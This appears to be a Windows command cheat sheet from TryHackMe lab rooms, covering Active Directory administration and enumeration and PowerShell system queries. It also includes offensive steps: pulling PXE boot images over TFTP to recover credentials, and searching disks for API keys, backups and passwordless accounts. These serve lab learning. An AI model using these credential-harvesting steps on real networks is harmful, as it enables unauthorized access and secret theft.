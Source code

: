 # Windows Commands

* [Active Directory](#active-directory)
* [Microsoft Deployment Toolkit](#microsoft-deployment-toolkit)
* [PowerShell](#powershell)


## Active Directory
Set password:
```
Set-ADAccountPassword [USERNAME] -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
```
Another way:
```
Set-ADAccountPassword -Identity [USERNAME] -Server [DOMAIN] -OldPassword (ConvertTo-SecureString -AsPlaintext "old" -force) -NewPassword (ConvertTo-SecureString -AsPlainText "new" -Force)
```
And Another way:
```
$Password = ConvertTo-SecureString "[PASSWORD]" -AsPlainText -Force
```
```
Set-ADAccountPassword -Identity "[USERNAME]" -Reset -NewPassword $Password
```
  
Force password reset on next login:
```
Set-ADUser -ChangePasswordAtLogon $true -Identity [USERNAME] -Verbose
```
Force group policy update:
```
gpupdate /force
```
List all users in the AD domain:
```
net user /domain
```
List info on a specific user:
```
net user "[USERNAME]" /domain
```
List Groups in the AD domain:
```
net group /domain
```
List info on a specific group:
```
net group "[GROUP-NAME]" /domain
```
Enumerate password policy:
```
net accounts /domain
```
Enumerate AD Users:
```
Get-ADUser -Identity [USERNAME] -Server [DOMAIN] -Properties *
```
Example:
```
Get-ADUser -Identity gordon.stevens -Server za.tryhackme.com -Properties *
```
Pretty Output:
```
Get-ADUser -Filter 'Name -like "*stevens"' -Server za.tryhackme.com | Format-Table Name,SamAccountName -A
```
Another Way:
```
Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description
```
Enumerate AD Groups:
```
Get-ADGroup -Identity [GROUP-NAME] -Server [DOMAIN]
```
Example:
```
Get-ADGroup -Identity Administrators -Server za.tryhackme.com
```
Enumerate group membership:
```
Get-ADGroupMember -Identity [GROUP-NAME] -Server [DOMAIN]
```
Example:
```
Get-ADGroupMember -Identity Administrators -Server za.tryhackme.com
```
Generic search for AD objects:
```
Get-ADObject [OPTIONS]
```
Example:
```
Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server za.tryhackme.com
```
Enumerate accounts that have a bad password count greater than 0:
```
Get-ADObject -Filter 'badPwdCount -gt 0' -Server [DOMAIN]
```
Get info about a specific domain:
```
Get-ADDomain -Server [DOMAIN]
```
* More info about the net command can be found here: https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/net-commands-on-operating-systems
* More info about cmdlets can be found here: https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps

************************************
## Microsoft Deployment Toolkit

Dowload BDC file via TFTP:
```
tftp -i [TARGET-IP] GET "\Tmp\[FILE-PATH]" conf.bcd
```

Recover the locations of the PXE boot images from the BCD file:
```
powershell -executionpolicy bypass
```
```
Import-Module .\PowerPXE.ps1
```
```
$BCDFile = "conf.bcd"
```
```
Get-WimFile -bcdFile $BCDFile
```
Download Image:
```
tftp -i [TARGET-IP] GET "[PXE-BOOT-IMAGE-LOCATION]" pxeboot.wim
```
Recovering Credentials from a PXE Boot Image:
```
Get-FindCredentials -WimFile pxeboot.wim
```

* Credit: https://tryhackme.com/room/breachingad

************************************
## PowerShell

Get Service Names
```
powershell -c "Get-Service"
```
Find location of a file:
```
Get-ChildItem -Path C:\ -Include *[FILENAME]* -File -Recurse -ErrorAction SilentlyContinue
```
Example:
```
Get-ChildItem -Path C:\ -Include *interesting-file.txt* -File -Recurse -ErrorAction SilentlyContinue
```
Get file hash:
```
Get-FileHash -Path "[FILE-PATH]" -Algorithm [ALGORITHM]
```
Example:
```
Get-FileHash -Path "C:\Program Files\interesting-file.txt.txt" -Algorithm MD5
```
Base64 decode a file:
```
certutil -decode "[FILE-PATH]" [OUTPUT-FILE]
```
Example:
```
certutil -decode "C:\Users\Administrator\Desktop\b64.txt" output.txt
```
Get users on local machine:
```
Get-LocalUser
```
Get users that do not require a password:
```
Get-LocalUser | Where-Object -Property PasswordRequired -Match false
```
List local machine groups:
```
Get-LocalGroup
```
Get IP Address:
```
Get-NetIPAddress
```
List listening ports:
```
Get-NetTCPConnection | Where-Object -Property State -Match Listen
```
List recent updates on the system:
```
Get-Hotfix
```
List backup files:
```
Get-ChildItem -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue
```
List files containing API_KEY: *WARNING: THIS PRODUCES A LOT OF OUTPUT AND TAKES A WHILE TO PROCESS*  
*The file path(s) will be listed at the end above the error output*
```
Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY
```

************************************


## References
* https://tryhackme.com/room/breachingad
* https://tryhackme.com/room/adenumeration
* https://tryhackme.com/room/powershell
